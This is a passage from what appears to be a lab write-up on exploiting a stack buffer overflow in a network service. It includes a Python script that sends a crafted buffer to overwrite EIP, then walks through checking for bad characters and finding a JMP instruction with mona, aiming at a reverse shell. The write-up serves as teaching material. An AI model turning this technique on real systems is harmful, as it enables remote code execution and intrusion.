 ```python
#!/usr/bin/python

import socket

host = "192.168.0.130"
port = 9999

buffer = "A" * 524 + "D" * 4

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send(buffer)
s.recv(1024)

print "[+] Buffer sent!"

s.close()

```
<img src="https://i.imgur.com/kv0DxAV.png"/>

The EIP has the value `44444444` which from hex converts to DDDD

## Identifying Bad Characters

Now the next step is to identify the bad characters for that we can just copy those characters from here

 https://github.com/cytopia/badchars

<Img src="https://i.imgur.com/rCQVgUb.png"/>

Run this script and the right click on `ESP`  and `Follow Dump`

<img src="https://i.imgur.com/gMtgfg9.png"/>

To identify bad characters, if there's any number missing like 01 it is considered as bad character but there aren't any missing characters from the input that we just sent so no bad characters

<img src="https://i.imgur.com/GfVkdyz.png"/>

## Finding the JMP instruction

Now we need to find the jump instruction `JMP` which is telling the stack to go jump to an address, we need to find address of this instruction so that we can make the stack jump to our instruction for calling a reverse shell

For finding the jmp instruction we can use a python script called `mona`

[https://github.com/corelan/mona](https://github.com/corelan/mona)
